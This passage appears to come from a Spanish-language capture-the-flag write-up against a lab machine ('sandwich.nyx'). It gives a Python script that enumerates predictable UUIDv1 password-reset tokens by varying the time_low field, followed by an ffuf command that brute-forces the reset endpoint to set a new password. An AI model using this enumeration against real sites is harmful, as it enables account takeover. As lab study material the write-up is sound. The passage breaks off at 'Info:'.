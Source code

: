 > createTOKENS.py

```python
#!/usr/bin/python3

def generar_uuids_por_lotes(start_hex, end_hex, batch_size=100_000, output_file="uuids.txt"):
    time_mid = "792f"
    time_hi_and_version = "11f0"
    clock_seq = "8069"
    node = "080027197fe7"

    start = int(start_hex, 16)
    end = int(end_hex, 16)

    with open(output_file, "w") as f:
        if start <= end:  # Ascendente
            step = batch_size
            for batch_start in range(start, end + 1, step):
                batch_end = min(batch_start + step, end + 1)
                for time_low in range(batch_start, batch_end):
                    time_low_hex = f"{time_low:08x}"
                    uuid_str = f"{time_low_hex}-{time_mid}-{time_hi_and_version}-{clock_seq}-{node}"
                    f.write(uuid_str + "\n")
                print(f"Lote {batch_start:08x}-{batch_end - 1:08x} guardado.")
        else:  # Descendente
            step = batch_size
            for batch_start in range(start, end - 1, -step):
                batch_end = max(batch_start - step, end - 1)
                for time_low in range(batch_start, batch_end, -1):
                    time_low_hex = f"{time_low:08x}"
                    uuid_str = f"{time_low_hex}-{time_mid}-{time_hi_and_version}-{clock_seq}-{node}"
                    f.write(uuid_str + "\n")
                print(f"Lote {batch_start:08x}-{batch_end + 1:08x} guardado.")

# Llamada a la función
generar_uuids_por_lotes("2053bbd6", "2055700c")
```

Ahora lo vamos a probar de esta forma:

```shell
python3 createTOKENS.py
```

Con esto habremos creado la lista, vamos a probarla con `FFUF` que es mas rapido que con `python3`.

```shell
ffuf -u "http://sandwich.nyx/resetpassword.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "token=FUZZ&new_password=diseo&confirm_password=diseo" -w uuids.txt -fs 420
```

Info:
